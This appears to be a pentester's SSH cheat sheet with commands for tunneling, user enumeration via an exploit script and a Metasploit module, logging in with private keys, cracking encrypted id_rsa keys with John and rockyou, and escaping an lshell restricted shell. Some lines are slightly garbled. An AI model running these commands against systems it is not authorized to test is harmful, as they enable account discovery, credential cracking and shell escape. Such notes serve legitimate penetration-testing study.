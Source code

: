 ```yaml
---
tags: 🔻 🔻/Enumeration/ssh
aliases: Hacking Notes
---
```

# SSH Scripts

## SSH Tunneling / Pivoting


### sshuttle  
#sshshuttle

sshuttle -vvr user@x.x.x.x  
  
  

## Local port forwarding

  
ssh gateway -L local port to listen:remote host:remote port  
  


## Remote port forwarding


  
ssh gateway -R remote port to bind:local host:local port 
  


## Dynamic port forwarding

ssh -D local proxy port -p remote port target  
  
  

# enum_ssh
#enum_ssh
  

## SSH user enumeration
#ssh_user_enum
  
1)  
python ./40136.py x.x.x.x  
  
  
  
2)  
msf > use auxiliary/scanner/ssh/ssh\_enumusers  
msf auxiliary(scanner/ssh/ssh\_enumusers) > set RHOSTS x.x.x.x  
RHOSTS => x.x.x.x  
msf auxiliary(scanner/ssh/ssh\_enumusers) > set USER\_FILE /usr/share/wordlists/metasploit/unix\_users.txt  
USER\_FILE => /usr/share/wordlists/metasploit/unix\_users.txt  
msf auxiliary(scanner/ssh/ssh\_enumusers) > run



# Login with RSA 
#ssh #id_rsa

chmod 600 *ssh key*  
chmod 400 id_rsa  
ssh -i id_rsa *user*@*ip*  
ssh *user*@*ip* -i *private key* 
or
ssh -o StrictHostKeychecking=no -i *private key* *user*@*ip*
# Decrypt RSA
#ssh #decrypt_id_rsa #john
Vigerner Cipher  
  
encrypted id_rsa ....  
key to decrypt  
  
python ssh2john.py id_rsa > id_john {convert John decrpt format}  
  
john id_john --wordlist=/usr/share/wordlists/rockyou.txt  
    
  
Decrypting RSA for given p,q,e and ct (cyphertext)  
rsadecrypt.py  
Result - PlainText (Long number)  
  
Convert PT to hex  
python -c "print(PT,'x').decode('hex')"

# lshell bypass
#lshell_bypass #ssh

echo os.system('/bin/bash')